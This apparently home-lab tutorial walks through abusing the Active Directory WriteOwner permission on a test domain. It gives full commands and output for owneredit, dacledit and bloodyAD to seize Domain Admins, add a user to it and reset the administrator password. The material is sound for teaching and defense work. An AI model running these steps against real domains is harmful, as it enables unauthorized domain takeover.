 
# 🔐 Write Owner

The WriteOwner permission allows a user to change the ownership of an object to a different user or principal, including one controlled by an attacker. Consequently, an attacker can exploit this permission to take ownership of a target object.

Once the we successfully assumes ownership, they can fully manipulate the object. This includes modifying permissions to grant themselves or others Full Control over the object. For example, the attacker could assign Full Control permissions, allowing unrestricted access to read, write, or delete the object.

#### Scenario

Let’s suppose we have the credentials of user **Haseeb**:

- **Username**: `Haseeb`
- **Password**: `Password123`

And `Haseeb` has a **WriteOwner** on another group: **Domain Admins**.

## Setting Up a Misconfiguration

We have a group name Domain Admins we move it from group section to user folder just for ease

<img src="Imgs/image2.png" alt="Error loading Image" />

Right-click and go to:  
**Properties → Security**


### Add User

Click on **Add**:

<img src="Imgs/image3.png" alt="Error loading Image" />

Here, add user **Haseeb** and click **OK**:

<img src="Imgs/image4.png" alt="Error loading Image" />

---

### Modify Permissions

Now go to the **Advanced** option of group **Domain Admins** and edit permissions for user **Haseeb**:

<img src="Imgs/image5.png" alt="Error loading Image" />

Edit the setting for user Haseeb

<img src="Imgs/image6.png" alt="Error loading Image" />

Check the box for **Modify permissions**:

<img src="Imgs/image7.png" alt="Error loading Image" />


##  Enumeration from BloodHound

#### Data Collection using rust hound

```
rusthound --domain furious.local -u Haseeb -p Password123 --output .
```
---

Now, when we enumerate it using **BloodHound**, we can see that **Haseeb** has **WriteOwner** permission on **Domain Admins**.

<img src="Imgs/image1.png" alt="Error loading Image" />

## Exploiting Target User

To exploit this misconfiguration, we use three utilities:

1. **owneredit** – to change owner of the object  
2. **dacledit** – to grant `Haseeb` full control over the user `Domain Admins`  
3. **BloodyAD** – to change the password of user `administrator`, since we now have full access  

---

### First: Set Haseeb as the New Owner of Domain Admin

Here, `CN=DOMAIN ADMINS,CN=USERS,DC=FURIOUS,DC=LOCAL` is the Distinguished Name (DN) of the Domain Admins group.  
But we moved it to the user folder, that's why the CN is set to `Users`.

```bash
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-owner/rusthound]
└─$ impacket-owneredit -action write -new-owner 'haseeb' -target-dn 'CN=DOMAIN ADMINS,CN=USERS,DC=FURIOUS,DC=LOCAL' 'furious.local'/'haseeb':'Password123' -dc-ip 192.168.129.140

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-3290932372-4080220911-1111251399-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=furious,DC=local
[*] OwnerSid modified successfully!
```

### Giving Full Access to Haseeb

If we want to change the password of an `Administrator` user, we will fail.
No doubt we are owner, but we are **not** a member of the `Domain Admins` group.
So, first we have to **add self to that group**.

In order to do that, we must first grant Haseeb **full control** over the Domain Admins object.

I have explained the difference between *owner of object* and *full control on object* at the bottom.

```bash                                                                                         
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-owner/rusthound]
└─$ dacledit.py -action 'write' -rights 'FullControl' -principal 'haseeb' -target-dn 'CN=Domain Admins,CN=Users,DC=furious,DC=local' 'furious.local/haseeb':'Password123'        

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250509-073205.bak
[*] DACL modified successfully!
```    


### Adding Haseeb to Domain Admins Group

Now we add self to Domain Admins group:

```bash       
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-owner/rusthound]
└─$ bloodyAD --host "192.168.129.140" -d "furious.local" -u "Haseeb" -p "Password123" add groupMember "Domain Admins" "Haseeb"

[+] Haseeb added to Domain Admins
```                                                                                                       

### Changing the Password of Administrator

Finally, we change the password of the `administrator` user to `Password123`:

```bash                                         
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-owner/rusthound]
└─$ bloodyAD --host "192.168.129.140" -d "furious.local" -u "Haseeb" -p "Password123" set password "administrator" "Password123"
[+] Password changed successfully!
                                       
```

**Point**: The last step and second last step are optional depending on your goal.



### Difference Between Owner of an Object and Full Control on an Object (Active Directory)

### 1. **Owner of an Object**

The owner is the principal (user or group) listed in the object's **security descriptor** as its owner.

- **Automatically has the right to modify the DACL** (Discretionary Access Control List).
- This means the owner can **grant themselves additional permissions**, such as `GenericAll` or `WriteProperty`.
- However, until they do so, they **do not** have the right to perform actions like changing group membership or resetting a password.

> **Key Point**: Ownership is about potential control – you must explicitly grant yourself access before you can take full action.

---

### 2. **Full Control on an Object**

Also referred to as having **`GenericAll`** permission.

- Includes all rights: `Read`, `Write`, `WriteDACL`, `WriteOwner`, `ResetPassword`, `Add/Remove members`, etc.
- You can manage all aspects of the object **without needing to change the DACL**.
- Used in many privilege escalation attacks.

> **Key Point**: Full control means immediate and complete access.

---

